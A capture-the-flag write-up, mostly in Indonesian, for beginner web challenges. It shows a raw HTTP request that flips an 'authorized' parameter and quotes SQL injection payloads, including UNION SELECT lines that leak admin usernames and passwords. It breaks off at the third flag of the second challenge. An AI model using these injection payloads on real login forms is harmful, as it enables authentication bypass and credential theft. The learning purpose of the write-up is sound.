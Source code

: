 ## Intro to Web 2
### flag ke-1
- hanya perlu mengubah nilai vaariable di console
### flag ke-2
- merubah post request agar dapat flag.txt
### flag ke-3
- merubah get request agar dapat flag.txt
### flag ke-4
```http
GET /burn-after-reading-6461316.php?authorized=true HTTP/1.1
Host: 054c99d8156c1cce71d3c1be-intro-web-2.challenge.master.cscg.live:31337
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
## Intro to Web 3
### flag ke-1
- Masukkan null
https://en.wikipedia.org/wiki/JSON#Data_types
### flag ke-2
- Bisa dengan mengeset "OFFSET" untuke mencari user admin
```
The reason you are logging in as iwasfirstlol is because that SQL query returns all of the users and the PHP script simply takes the first one.
So how do you get around this? Well, there are multiple ways to go about this, and I'll give you example solutions for each of them:

Skip the first entry. If that doesn't work, skip the first two entries, and so on...
' OR true OFFSET 1 --
        
Put in a filter that only returns admins.
' OR is_admin=true --
        
Add artificial entries to the query, with an arbitrary username and admin privileges.
' UNION SELECT 'whatever',true --
        
Or - and this is the really big one - do the same as above but actually also leak the admin username and password from the database.
' UNION SELECT username,is_admin FROM users WHERE is_admin=true --
' UNION SELECT password,is_admin FROM users WHERE is_admin=true --
        
(Go ahead and try this. You'll notice that you're now seeing the admin's password as the "username".)
```
### flag ke-3